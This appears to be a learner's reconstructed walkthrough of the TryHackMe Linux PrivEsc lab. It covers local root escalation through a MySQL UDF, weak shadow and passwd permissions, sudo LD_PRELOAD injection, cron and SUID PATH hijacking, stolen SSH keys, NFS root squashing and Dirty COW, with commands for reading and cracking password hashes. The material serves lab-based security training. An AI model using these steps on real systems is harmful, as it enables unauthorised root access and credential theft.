

// Context
I completed the Linux PrivEsc room on TryHackMe. The VM originated in
Sagi Shahar's local privilege escalation workshop and was updated by
Tib3rius for this room. It is built to expose several independent paths
from the low-privileged user account to root.
I did not save my terminal output while working through it, so this is a reconstruction of the techniques I practiced rather than a transcript. I am also leaving out question answers, hashes, passwords, and flags.

// Starting point
The room starts with SSH access to a Debian VM as an unprivileged user. The first check establishes the current security context before testing each escalation path separately.
bashssh user@MACHINE_IP
idEach exercise ends with a root shell. I exited that shell before moving on so the next technique still began from the original user context.
// Service exploit: MySQL UDF
The MySQL service runs as root and accepts the database root account without a password. The path is to compile the supplied UDF, load it as a MySQL plugin, and use the new function to execute an operating-system command as root.
bashcd /home/user/tools/mysql-udf
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so \
-o raptor_udf2.so raptor_udf2.o -lc
mysql -u root
Inside MySQL, the shared object is written to the plugin directory and
registered as do_system. Calling it can create an SUID copy of
Bash; running that copy with -p preserves the effective UID.
// Weak file permissions
Readable /etc/shadow
A world-readable shadow file exposes password hashes. The root hash can be copied to the attacker machine and tested offline with a wordlist.
bashls -l /etc/shadow
cat /etc/shadow
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txtWritable /etc/shadow and /etc/passwd
Write access is even more direct. A replacement password hash can be generated
for the root entry in /etc/shadow. If /etc/passwd is
writable, a hash can be placed in a UID 0 account entry instead.
mkpasswd -m sha-512 NEW_PASSWORD
openssl passwd NEW_PASSWORDThe important check is not simply whether these files exist, but whether their ownership and mode match the trust placed in them by the authentication stack.
// Sudo abuse
sudo -l is the starting point. Allowed binaries may expose shell
escapes or file operations that become dangerous when executed as root. GTFOBins
is useful for mapping a permitted binary to those behaviors.
sudo -lInherited environment variables
The lab also preserves LD_PRELOAD and LD_LIBRARY_PATH
through sudo. The first can inject a shared object before normal libraries are
loaded; the second can make a privileged process search an attacker-controlled
directory first.
gcc -fPIC -shared -nostartfiles \
-o /tmp/preload.so /home/user/tools/sudo/preload.c
sudo LD_PRELOAD=/tmp/preload.so PROGRAM
ldd /usr/sbin/apache2
gcc -o /tmp/libcrypt.so.1 -shared -fPIC \
/home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2// Cron jobs
The room demonstrates three different trust failures in scheduled jobs:
a root-owned job executing a writable script, an unsafe PATH,
and wildcard expansion interpreted as command-line options by tar.
cat /etc/crontab
locate overwrite.sh
ls -l /usr/local/bin/overwrite.sh
cat /usr/local/bin/compress.sh
For the PATH case, the system crontab searches /home/user before
trusted system directories. A user-controlled executable with the expected name
is therefore selected by the root cron job. For the wildcard case, filenames such
as --checkpoint=1 become options when the shell expands *.
// SUID and SGID executables
The first step is to inventory files that execute with an effective user or group ID different from the caller. The room then explores four distinct problems: a known Exim exploit, shared-object injection, PATH hijacking, and Bash behavior inherited by an SUID program.
bashfind / -type f -a \( -perm -u+s -o -perm -g+s \) \
-exec ls -l {} \; 2>/dev/null
strace /usr/local/bin/suid-so 2>&1 \
| grep -iE "open|access|no such file"
strings /usr/local/bin/suid-env
strings /usr/local/bin/suid-env2
The shared-object exercise finds a missing library below the user's home directory.
Compiling the supplied libcalc.c at that exact path causes the SUID
executable to load attacker-controlled code. The environment-variable exercise
finds a call to service without an absolute path, making PATH order the
escalation vector.
Two later tasks abuse version-specific Bash features through the second SUID executable. These are good reminders to record interpreter versions: a technique that works on the old lab image may not apply to a modern system.
// Passwords and SSH keys
Credentials do not need a software exploit. The lab places sensitive material in shell history, a configuration referenced by an OpenVPN file, and a readable backup of root's private SSH key.
bashcat ~/.*history | less
ls /home/user
cat /home/user/myvpn.ovpn
ls -la /
ls -l /.sshA copied private key must have restrictive local permissions before OpenSSH will use it. The old target also requires explicitly enabling its legacy SSH key algorithms.
bashchmod 600 root_key
ssh -i root_key \
-oPubkeyAcceptedKeyTypes=+ssh-rsa \
-oHostKeyAlgorithms=+ssh-rsa root@MACHINE_IP// NFS
The exported /tmp share disables root squashing. A file created on the
mounted share by root on the attacker machine keeps UID 0 ownership on the target,
allowing an SUID executable placed there to run with root privileges.
cat /etc/exports
# attacker machine
sudo mkdir /tmp/nfs
sudo mount -o rw,vers=3 MACHINE_IP:/tmp /tmp/nfs// Kernel exploits and enumeration scripts
Linux Exploit Suggester 2 identifies Dirty COW as a possible match for the old kernel. The room deliberately puts this near the end: kernel exploits can destabilize a host and should be treated as a last resort after configuration-based paths have been exhausted.
bashperl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/\
linux-exploit-suggester-2.pl
ls -la /home/user/tools/privesc-scriptsThe final task compares three automated privilege-escalation scripts against the manual findings. Automation is useful for breadth, but it is much easier to judge a finding after understanding the permission, execution, or trust boundary it violates.
// Takeaways
- Start with identity, sudo permissions, scheduled jobs, and SUID/SGID inventory.
- Follow execution context: which user runs the service, script, or binary?
- Check every trusted file and search path for unprivileged write access.
- Look for credentials in history, configuration files, backups, and private keys.
- Prefer repeatable misconfigurations over risky kernel exploitation.
- Use enumeration scripts to support manual analysis, not replace it.